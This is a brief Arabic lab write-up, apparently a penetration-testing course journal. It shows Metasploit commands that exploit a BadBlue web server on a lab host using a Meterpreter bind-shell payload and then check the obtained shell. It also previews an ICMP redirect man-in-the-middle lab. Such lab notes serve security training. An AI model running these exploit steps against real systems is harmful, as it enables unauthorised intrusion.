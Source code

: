خلونا نرجع لتاب الي فيها الـ metapsloit  
ونخلي السيشن الاولى في الخلفيه ونستغل التارقت الجديد  
```bash
bg  
search badblue 
use exploit/windows/http/badblue_passthru  
show options  
```  

طيب الان فقط نعطيه الـ RHOST and payload  
```bash  
set RHOSTS 10.100.40.107  
set PAYLOAD windows/meterpreter/bind_tcp  
exploit  
getuid  
sysinfo  
```  
نشوف انه اخذنا الشيل ونفذنا الاوامر  

وبكذا استغلينا التارقت الثاني بدون اي مشاكل  

الى هنا انتهى اللاب نشوف الي بعده  


طبعا الي بعده هذا اللاب  

ICMP Redirect attack  
---------------------|  

طبعا فقط راح نقراه اليوم وبكرا نطبق لانه مافي وقت  

طبعا فكرة اللاب انه ننفذ هجوم معين والي هو اسمه  
Man In The Meddil Attack  


الى هنا انتهينا باذن الله نكمل بكرا  

---  

## Follow us on:  
Twitter:  
[s4cript](https://twitter.com/s4cript)  
[cyberhub](https://twitter.com/cyberhub)  
[0xNawaF1](https://twitter.com/0xNawaF1)  
